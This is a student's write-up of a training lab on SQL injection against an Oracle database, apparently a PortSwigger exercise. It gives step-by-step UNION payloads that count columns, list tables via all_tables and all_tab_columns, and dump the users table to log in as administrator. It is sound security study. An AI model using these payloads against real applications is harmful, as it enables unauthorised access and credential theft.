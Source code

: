 # SQL injection attack, listing the database contents on Oracle
- SQL injection vulnerability in the product category filter
- results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables\
- application has a login function, and the database contains a table that holds usernames and passwords
- To solve the lab, log in as the administrator user.
# Goal
- determine the name of this table and the columns it contains
- retrieve the contents of the table to obtain the username and password of all users
# Solving The Lab
- First Find Number of Columns with go to burp intercept request with pets clicked and send to repeater
```
' ORDER by 1--
```
- url encode and change the value untill we got and 3 internal server error so columns are 2
- now to the columns type we try string but we got internal server error since its oracle db we need to use from clause and point it to a dumy table
```
' UNION SELECT 'a','a' FROM DUAL--
```
- and we got a 200 in response
- now to output db tables
```
SELECT * FROM all_tables
```
- this is the default way for oracle to ouput tables now we need to refactor it for our union payload
- we search for all_tables column names for oracle and find column TABLE_NAME make sure to insert null as the other column cuz we have 2 columns
```
' UNION SELECT table_name, 'a' FROM all_tables--
```
- and 200 in response and tables are shown now look for users table and we find one which is 'USERS_HIOMBV'
- now we need to find column names like portswigger
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```
- refactor it for the payload first find column name associadted with all_tab_columns
- and found it which is 'COLUMN_NAME' now add it with null because we have 2 columns
```
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_HIOMBV'--
```
- we got 200 and found in response 2 columns
```
USERNAME_JRARNR
PASSWORD_KSJJOK
```
- now to final payload to ouput username and passwords 
```
' UNION SELECT USERNAME_JRARNR,PASSWORD_KSJJOK FROM USERS_HIOMBV--
```
- voila we got 200 in response with users and their password now login with the administartor creds and we solved the lab

